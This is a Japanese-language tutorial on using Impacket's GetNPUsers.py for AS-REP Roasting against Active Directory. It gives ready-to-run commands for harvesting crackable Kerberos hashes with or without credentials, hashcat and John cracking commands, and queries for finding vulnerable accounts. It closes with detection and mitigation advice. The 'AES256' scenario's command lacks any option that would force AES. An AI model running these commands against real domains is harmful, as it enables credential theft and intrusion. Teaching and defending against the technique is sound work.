



## TL;DR

`GetNPUsers.py` は **AS-REP Roasting** を実行する Impacket スクリプトだ。*「Kerberos 事前認証を必要としない」* フラグが有効になっている Active Directory アカウントを悪用する。このフラグが設定されていると、KDC はリクエスト者の身元を確認せずに AS-REP を返すため、オフラインでクラックできる暗号化ブロブが露出する。

---

## GetNPUsers.py でできること

| できること | 詳細 |
|-----------|------|
| ローストできるアカウントを列挙する | LDAP クエリ（認証情報が必要）またはユーザーリストを使用 |
| 事前認証なしで AS-REP をリクエストする | 脆弱なアカウントごとに認証なしの AS-REQ を送信する |
| クラック可能なハッシュを返す | hashcat / John the Ripper 形式の `$krb5asrep$` ハッシュを出力する |
| 複数の出力形式をサポートする | `-outputfile`、`-format hashcat` または `-format john` |
| ドメイン認証情報なしで動作する | ユーザーリストを指定し KDC が応答すれば可能 |
| 特定のユーザーを対象にする | `-usersfile` または位置引数によるシングルユーザーモード |

---

## GetNPUsers.py でできないこと

| 制限 | 理由 |
|------|------|
| ハッシュのクラック | オフラインクラックは別途実施（hashcat / john） |
| 事前認証が必要なアカウントを対象にする | KDC が `KRB_ERROR: KDC_ERR_PREAUTH_REQUIRED` を返し、ハッシュは得られない |
| 認証情報もリストもなしにユーザーを列挙する | LDAP クエリには有効な認証情報が必要。ブラインドモードには事前に構築したユーザーリストが必要 |
| 単独で権限昇格する | ハッシュを取得するだけ — クラックとラテラルムーブメントは別のステップ |
| Kerberos の AES 専用強制をバイパスする | RC4（etype 23）の代わりに AES256（etype 18）が強制されるとクラックの難易度が上がる |
| スマートカード強制アカウントを攻撃する | これらのアカウントはログオン要件が異なる |
| DC へのネットワークアクセスなしに機能する | TCP 88（Kerberos）および任意で TCP 389/636（LDAP）が必要 |

---

## 通常の Kerberos AS-REQ と AS-REP Roasting の比較

### 通常のフロー（事前認証が有効な場合）



### AS-REP Roasting（事前認証が無効な場合）



> KDC はリクエスト者が実際に `target_user` であるかを確認しなかった。ユーザー名を知っていれば誰でも AS-REP をリクエストできる。

---

## 攻撃の全フロー



---

## 使いどころ

### シナリオ 1 — 有効なドメイン認証情報がある場合

最も一般的な使い方。LDAP 列挙によってローストできるアカウントをすべて自動で見つける。

```bash
# ドメイン認証情報あり — LDAP で自動列挙
GetNPUsers.py <DOMAIN>/<USER>:<PASSWORD> -dc-ip <DC_IP> -request -outputfile hashes.txt

# 例
GetNPUsers.py corp.local/jsmith:Password1 -dc-ip 10.10.10.100 -request -outputfile hashes.txt
```

### シナリオ 2 — 認証情報はないが、ユーザーリストがある場合

Kerbrute、OSINT、または SMB null セッションによるユーザー名列挙後に有効。

```bash
# 認証情報なし — ユーザーリストを指定
GetNPUsers.py <DOMAIN>/ -no-pass -usersfile users.txt -dc-ip <DC_IP> -outputfile hashes.txt

# 例
GetNPUsers.py corp.local/ -no-pass -usersfile users.txt -dc-ip 10.10.10.100 -outputfile hashes.txt
```

### シナリオ 3 — 特定のユーザーを単独で対象にする場合

```bash
GetNPUsers.py <DOMAIN>/<TARGET_USER> -no-pass -dc-ip <DC_IP>
```

### シナリオ 4 — AES256 ハッシュをリクエストする場合（クラックが困難）

```bash
# AES256 を強制 (etype 18) — クラックにかなり時間がかかる
GetNPUsers.py corp.local/jsmith:Password1 -dc-ip 10.10.10.100 -request -format hashcat -outputfile hashes.txt
```

---

## ハッシュのクラック

```bash
# RC4 (etype 23) — hashcat モード 18200
hashcat -m 18200 hashes.txt /usr/share/wordlists/rockyou.txt

# ルールを使ってカバレッジを向上
hashcat -m 18200 hashes.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule

# John the Ripper
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

**ハッシュ形式リファレンス:**

```
$krb5asrep$23$user@DOMAIN.LOCAL:abc123...<暗号化ブロブ>
          ^^ etype 23 = RC4-HMAC（クラックしやすい）

$krb5asrep$18$user@DOMAIN.LOCAL:abc123...<暗号化ブロブ>
          ^^ etype 18 = AES256-CTS-HMAC-SHA1-96（クラックに時間がかかる）
```

---

## 主なオプション

| フラグ | 説明 |
|--------|------|
| `-request` | TGT をリクエストし AS-REP ハッシュを出力する |
| `-no-pass` | パスワードのプロンプトを表示しない（匿名モード） |
| `-usersfile <file>` | テストするユーザー名を含むファイル |
| `-outputfile <file>` | ハッシュをファイルに保存する |
| `-format <hashcat\|john>` | ハッシュ出力形式 |
| `-dc-ip <ip>` | ドメインコントローラーの IP |
| `-dc-host <hostname>` | ドメインコントローラーのホスト名 |

---

## ローストできるアカウントの特定

### PowerShell（ドメイン参加済みマシン上で）

```powershell
# DONT_REQUIRE_PREAUTH を持つすべてのアカウントを検索
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} -Properties DoesNotRequirePreAuth |
    Select-Object Name, SamAccountName, DoesNotRequirePreAuth
```

### LDAP フィルタ（GetNPUsers.py が内部で使用）

```
(userAccountControl:1.2.840.113556.1.4.803:=4194304)
```

ビット `4194304`（0x400000）は `UF_DONT_REQUIRE_PREAUTH` に対応する。

---

## 検出と防御

### ブルーチームの指標

| イベント ID | ソース | 確認すべきこと |
|------------|--------|--------------|
| 4768 | Security | 事前認証なしの AS-REQ（`Pre-Authentication Type: 0`） — これがローストの試行 |
| 4625 | Security | クラックされたパスワードが使用された場合のログオン失敗 |

**Pre-Authentication Type = 0** の Kerberos イベント 4768 が最も明確な指標。健全な環境ではほぼ発生しないはずだ。

### 緩和策

```powershell
# すべてのアカウントで事前認証を強制する
# まず: フラグが設定されているアカウントを確認
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} -Properties DoesNotRequirePreAuth

# 修正: 事前認証を再有効化
Set-ADAccountControl -Identity <username> -DoesNotRequirePreAuth $false
```

- **強力なパスワードポリシー**を強制する — 長く複雑なパスワードのクラックは計算量的に現実的でない
- Kerberos に **AES 暗号化**を有効化し RC4 を無効化することでクラックを大幅に遅くする
- **Microsoft Defender for Identity**（MDI）を使用する — AS-REP Roasting の試行をそのままアラートで検知できる
- `UF_DONT_REQUIRE_PREAUTH` が設定されたアカウントを定期的に監査する

---

## 参考資料

- [Impacket — GetNPUsers.py ソースコード](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py)
- [harmj0y — Roasting AS-REPs](https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)
- [Microsoft — userAccountControl 属性](https://learn.microsoft.com/en-us/troubleshoot/windows-server/active-directory/useraccountcontrol-manipulate-account-properties)
